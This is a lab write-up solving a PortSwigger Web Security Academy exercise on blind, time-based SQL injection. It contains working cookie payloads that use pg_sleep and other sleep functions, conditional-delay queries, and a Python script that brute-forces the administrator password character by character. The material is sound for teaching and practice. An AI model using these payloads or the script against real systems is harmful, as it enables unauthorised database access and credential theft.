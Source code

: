 # Lab 12: Blind SQL injection with time delays and information retrieval

## Description

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Solution

The objective of this lab is to exploit the SQL-injectable tracking cookie to reveal the password of the `administrator` user, which is stored in the `password` column of the `users` table on the row with the value `administrator` for the `username` column. The application provides no real feedback based on the outcome of the SQL query, but since it executes the SQL query synchronously before returning the HTTP response, we can ask it questions and leverage time delays to interpret its answers.

### Modeling the injectable SQL query and backend code

We first identify the vulnerable tracking cookie as `TrackingId`. Since the application provides no real feedback based on the outcome of the SQL query's execution, there's no real way to validate whether the cookie is truly vulnerable except for guessing the structure of the SQL query and attempting to inject a time delay.

We'll start with the former. The structure of the SQL query probably looks like:

```sql
SELECT TrackingId FROM TrackingIds WHERE TrackingId = '$TRACKING_ID'
```

Based on the behavior of the application, the backend server code probably looks like:

```python
tracking_id = request.cookies['TrackingId']
sql_query = f"SELECT TrackingId FROM TrackingIds WHERE TrackingId = '{tracking_id}'"
try:
	rows = db.execute(sql_query)  # SQL query is executed synchronously
except SQLError:
	pass  # SQL error is caught and ignored
if len(rows) > 0:
	do_some_asynchronous_tracking(rows[0].TrackingId)
render("Page")  # Page renders regardless of outcome of SQL query
```

Now we want to inject a time delay into the query to validate the presence of the SQL injection vulnerability. Time delay syntax varies between database types and due to the lack of feedback, we don't yet have any way to know what type of database the web application is using. Thus, we will test several different time delay commands before we can get one to work.

### Testing time-delay injections

#### Oracle

```http
GET /filter?category=Lifestyle HTTP/1.1
Host: ac161fef1ea69b55804f03aa00820025.web-security-academy.net
Cookie: TrackingId=Vi4dPSiPRAt7q0lL'%3b dbms_pipe.receive_message(('a'),10)--; session=slttJiHdGhUsemHOywMi4HKTZC2ZtHmU
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

No delay.

#### Microsoft SQL

```http
GET /filter?category=Lifestyle HTTP/1.1
Host: ac161fef1ea69b55804f03aa00820025.web-security-academy.net
Cookie: TrackingId=Vi4dPSiPRAt7q0lL'%3b WAITFOR DELAY '0:0:10'--; session=slttJiHdGhUsemHOywMi4HKTZC2ZtHmU
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

No delay.

#### PostgreSQL

```http
GET /filter?category=Lifestyle HTTP/1.1
Host: ac161fef1ea69b55804f03aa00820025.web-security-academy.net
Cookie: TrackingId=Vi4dPSiPRAt7q0lL'%3b SELECT pg_sleep(10)--; session=slttJiHdGhUsemHOywMi4HKTZC2ZtHmU
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

Success! Consistent 10 second delay.

This gives us two pieces of valuable information:
1. The database is PostgreSQL
2. We can execute stacked queries

Next we'll test a conditional time delay injection to make sure we can ask the database questions and interpret its responses based on time delay.

### Testing conditional time delays

We'll test an always-true injection to ensure that when the condition is true, the database waits 10 seconds.

```http
GET /filter?category=Lifestyle HTTP/1.1
Host: ac161fef1ea69b55804f03aa00820025.web-security-academy.net
Cookie: TrackingId=Vi4dPSiPRAt7q0lL'%3b SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--; session=slttJiHdGhUsemHOywMi4HKTZC2ZtHmU
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

Success! We'll test an always-false injection to ensure that when the condition is false, the database waits 10 seconds.

```http
GET /filter?category=Lifestyle HTTP/1.1
Host: ac161fef1ea69b55804f03aa00820025.web-security-academy.net
Cookie: TrackingId=Vi4dPSiPRAt7q0lL'%3b SELECT CASE WHEN (1=2) THEN pg_sleep(0) ELSE pg_sleep(10) END--; session=slttJiHdGhUsemHOywMi4HKTZC2ZtHmU
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

Success again! Now we're confident that we can ask the database questions and reliably interpret its answers.

```sql
SELECT TrackingId FROM TrackingIds WHERE TrackingId = 'Vi4dPSiPRAt7q0lL' AND SELECT CASE WHEN (table_name = 'users') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM information_schema.tables WHERE table_name = 'users'--'
```

### Figuring out the password length

We know the target table is named `users` and that the columns are `username` and `password`. Before we begin brute-forcing `administrator`'s password, it would be wise to first determine the length of the password. We imagine the password is between 0 and 100 characters long, so we start by determining whether the password is in the first half of that range or the second.

```txt
Vi4dPSiPRAt7q0lL'%3b SELECT CASE WHEN (LENGTH(password) < 50) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator'--
```

The web application response delay of approximately 10 seconds indicates that the password is less than 50 characters long. Now we repeat the same process to check and see if the password is shorter than or longer than 25 characters and so on until we settle on the password length of 20 characters.

```txt
Vi4dPSiPRAt7q0lL'%3b SELECT CASE WHEN (LENGTH(password) = 20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator'--
```

Now we can inject the following to brute force `administrator`'s password:

```txt
Vi4dPSiPRAt7q0lL'%3b SELECT CASE WHEN (SUBSTRING(password, $INDEX, 1) = '$CHARACTER') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator'--
```

We can automate this process.

```python
import datetime
import string
import requests

delay = 5  # seconds
password_length = 20
with open("password.txt", "a") as f:
    for i in range(1, password_length + 1):
        for c in string.ascii_letters + string.digits:
            before = datetime.datetime.now()
            response = requests.get(
                "https://ac161fef1ea69b55804f03aa00820025.web-security-academy.net",
                cookies={
                    "TrackingId": f"Vi4dPSiPRAt7q0lL'%3b SELECT CASE WHEN (SUBSTRING(password, {i}, 1) = '{c}') THEN pg_sleep({delay}) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator'--",
                    "session": "slttJiHdGhUsemHOywMi4HKTZC2ZtHmU"
                }
            )
            after = datetime.datetime.now()
            delta = after - before
            if delta.seconds >= float(delay):
                f.write(c)
                f.flush()
                break
            print("", end="\r")
            print(f"[*] Progress: character index {i}, character {c}, delta: {delta}", end="\r")
    f.write("\n")
```

We find that `administrator`'s password is `3eyviuxpffvomipeggak` and successfully login.